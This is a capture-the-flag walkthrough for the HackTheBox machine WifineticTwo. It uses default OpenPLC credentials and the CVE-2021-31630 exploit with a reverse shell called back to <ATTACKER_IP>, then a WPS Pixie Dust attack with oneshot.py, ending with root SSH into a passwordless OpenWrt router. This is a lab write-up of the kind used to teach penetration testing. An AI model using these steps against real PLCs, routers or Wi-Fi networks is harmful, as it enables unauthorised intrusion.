




HackTheBox WifineticTwo
Enumeration
We begin with a TCP nmap scan.
sudo nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 10.129.128.171
# Nmap 7.94SVN scan initiated Sun Mar 17 16:12:04 2024 as: nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 10.129.128.171
Nmap scan report for 10.129.128.171
Host is up, received user-set (0.11s latency).
Scanned at 2024-03-17 16:12:04 CET for 161s
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdc
sEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
| 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
| 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
8080/tcp open http-proxy syn-ack ttl 63 Werkzeug/1.0.1 Python/2.7.18
...OMITTED...We check port 8080 in our web browser and find an OpenPLC webserver.
We try using the default credentials openplc:openplc and successfully gain access.

RCE via OpenPLC Webserver v3
We’ll try peforming RCE CVE-2021-31630 using the script from https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html. We analyze the script and change the line:
compile_program = options.url + '/compile-program?file=681871.st'
to adjust to the name of the program we found in the dashboard:
compile_program = options.url + '/compile-program?file=blank_program.st'
We set up a listener for the reverse shell.
nc -nvlp 4444
We launch our modified python script.
python3 exploit.py -u http://<TARGET_IP>:8080 -l openplc -p openplc -i <ATTACKER_IP> -r 4444
After a moment we successfully gain a reverse shell.

The user flag is located at /root/user.txt.
Acquiring Wi-Fi password using Pixie Dust attack with oneshot.py
We stabilize our shell using following commmands.
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color SHELL=bash
CTRL+Z
stty raw -echo;fg;reset
stty rows <YOUR_TERMINAL_ROWS> columns <YOUR_TERMINAL_COLS>We check network interfaces.
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.3.2 netmask 255.255.255.0 broadcast 10.0.3.255
inet6 fe80::216:3eff:fefc:910c prefixlen 64 scopeid 0x20<link>
ether 00:16:3e:fc:91:0c txqueuelen 1000 (Ethernet)
RX packets 24588 bytes 2046665 (2.0 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 15854 bytes 1796468 (1.7 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 10 bytes 576 (576.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 10 bytes 576 (576.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
wlan0: flags=4099<UP,BROADCAST,MULTICAST> mtu 1500
ether 02:00:00:00:02:00 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0We find a wlan0 interface. We’ll scan it further.
iw dev wlan0 scan
root@attica01:/opt/PLC/OpenPLC_v3/webserver# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
last seen: 16720.612s [boottime]
TSF: 1710689571207569 usec (19799d, 15:32:51)
freq: 2412
beacon interval: 100 TUs
capability: ESS Privacy ShortSlotTime (0x0411)
signal: -30.00 dBm
last seen: 0 ms ago
Information elements from Probe Response frame:
SSID: plcrouter
Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0
DS Parameter set: channel 1
ERP: Barker_Preamble_Mode
Extended supported rates: 24.0 36.0 48.0 54.0
RSN: * Version: 1
* Group cipher: CCMP
* Pairwise ciphers: CCMP
* Authentication suites: PSK
* Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
Supported operating classes:
* current operating class: 81
Extended capabilities:
* Extended Channel Switching
* SSID List
* Operating Mode Notification
WPS: * Version: 1.0
* Wi-Fi Protected Setup State: 2 (Configured)
* Response Type: 3 (AP)
* UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
* Manufacturer:
* Model:
* Model Number:
* Serial Number:
* Primary Device Type: 0-00000000-0
* Device name:
* Config methods: Label, Display, Keypad
* Version2: 2.0We learn that it’s using WPS. We’ll attempt a WPS PIN attack using https://github.com/kimocoder/OneShot. We upload the oneshot.py file onto the machine and run a Pixie Dust attack.
python3 oneshot.py -i wlan0 -K
We successfully crack the PSK of AP with SSID plcrouter.

Unprotected SSH access to the router
We connect to plcrouter using the following commands
wpa_passphrase plcrouter "NoWWEDoKnowWhaTisReal123!" | tee /etc/wpa_supplicant/wpa_supplicant.conf
wpa_supplicant -c /etc/wpa_supplicant/wpa_supplicant.conf -i wlan0 -BWe request an IP address.
dhclient
We once again run ifconig to check our assigned IP address.

We upload nmap and run-nmap.sh from https://github.com/ernw/static-toolbox/releases/tag/nmap-v7.94SVN onto the machine and perform a ping sweep of 192.168.1.0/24.
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ./run-nmap.sh -sn 192.168.1.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 15:48 UTC
Nmap scan report for 192.168.1.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000089s latency).
MAC Address: 02:00:00:00:01:00 (Unknown)
Nmap scan report for attica01.lan (192.168.1.84)
Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 1.87 secondsWe find another host in the network with the IP address 192.168.1.1. We probe it further with nmap.
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ./run-nmap.sh -vv --reason -Pn -p- -T5 -sT -oN nmap-result-tcp-internal.txt 192.168.1.1
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 15:50 UTC
Unable to find nmap-services! Resorting to /etc/services
Unable to find nmap-protocols! Resorting to /etc/protocols
Initiating Parallel DNS resolution of 1 host. at 15:50
Completed Parallel DNS resolution of 1 host. at 15:50, 0.00s elapsed
Initiating Connect Scan at 15:50
Scanning 192.168.1.1 [65535 ports]
Discovered open port 53/tcp on 192.168.1.1
Discovered open port 22/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 443/tcp on 192.168.1.1
Completed Connect Scan at 15:50, 2.83s elapsed (65535 total ports)
Nmap scan report for 192.168.1.1
Host is up, received user-set (0.00038s latency).
Scanned at 2024-03-17 15:50:52 UTC for 3s
Not shown: 65531 closed tcp ports (conn-refused)
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack
53/tcp open domain syn-ack
80/tcp open http syn-ack
443/tcp open https syn-ack
Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 2.85 secondsWe check port 80 with curl.
root@attica01:/opt/PLC/OpenPLC_v3/webserver# curl http://192.168.1.1
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
<meta http-equiv="Pragma" content="no-cache" />
<meta http-equiv="Expires" content="0" />
<meta http-equiv="refresh" content="0; URL=cgi-bin/luci/" />
<style type="text/css">
body { background: white; font-family: arial, helvetica, sans-serif; }
a { color: black; }
@media (prefers-color-scheme: dark) {
body { background: black; }
a { color: white; }
}
</style>
</head>
<body>
<a href="cgi-bin/luci/">LuCI - Lua Configuration Interface</a>
</body>
</html>Based on the IP address and LuCI Lua configuration interface on port 80, we can make a reasonable guess that this is an OpenWRT router. We refer to https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers and try to ssh to the host.
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.
BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)
_______ ________ __
| |.-----.-----.-----.| | | |.----.| |_
| - || _ | -__| || | | || _|| _|
|_______|| __|_____|__|__||________||__| |____|
|__| W I R E L E S S F R E E D O M
-----------------------------------------------------
OpenWrt 23.05.2, r23630-842932a63d
-----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# ls -al
drwxr-xr-x 2 root root 4096 Jan 7 21:20 .
drwxr-xr-x 17 root root 4096 Mar 17 10:54 ..
-rw-r----- 2 root root 33 Mar 17 10:54 root.txtWe successfully gained access to the host and found the root flag.
References:
- https://www.cvedetails.com/cve/CVE-2021-31630/
- https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html
- https://github.com/kimocoder/OneShot/tree/master
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
- https://github.com/ernw/static-toolbox/releases
- https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers